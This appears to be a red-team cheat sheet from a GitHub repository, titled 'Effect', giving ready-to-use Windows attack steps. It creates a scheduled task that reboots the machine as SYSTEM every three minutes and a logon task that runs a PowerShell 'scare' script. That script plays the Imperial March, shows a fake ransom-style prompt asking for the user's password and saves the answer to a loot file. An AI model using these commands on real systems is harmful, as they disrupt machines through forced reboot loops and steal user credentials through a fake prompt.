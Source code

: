 <p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/effect.md">Top of Page</a> |
  <a href="/CheatSheets/effect.md#bottom-of-page">Bottom of Page</a>
</p>

# Cheatsheets - Effect
## Table of Contents
* [Scheduled Tasks](#scheduled-tasks)
  * [Rolling Reboot](#rolling-reboot) 

## Scheduled Tasks
### Rolling Reboot
```bash
schtasks.exe /create /tn "Scare" /tr "powershell -c 'C:\scare.ps1'" /sc onlogon /it
schtasks.exe /create /tn "Effect" /tr "shutdown /r /t 000" /ru "SYSTEM" /sc minute /mo 3  
```
```pwsh
# contents of scare.ps1 PowerShell script (plays Imperial March from Star Wars)
[console]::beep(440,500)
[console]::beep(440,500)
[console]::beep(440,500)
[console]::beep(349,350)
[console]::beep(523,150)
[console]::beep(440,500)
[console]::beep(349,350)
[console]::beep(523,150)
[console]::beep(440,1000)
[console]::beep(659,500)
[console]::beep(659,500)
[console]::beep(659,500)
[console]::beep(349,350)
[console]::beep(523,150)
[console]::beep(659,500)
[console]::beep(349,350)
[console]::beep(523,150)
[console]::beep(440,1000)
Write-Host "[+] Donovia Rulez!"
Read-Host "[+] Decrypt files with $($env:USERNAME) password" | Out-File -Append C:\Users\Public\loot.txt
Start-Sleep -Seconds 5
```

<p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/effect.md">Top of Page</a> |
  <a href="/CheatSheets/effect.md#bottom-of-page">Bottom of Page</a>
</p>

## Bottom of Page
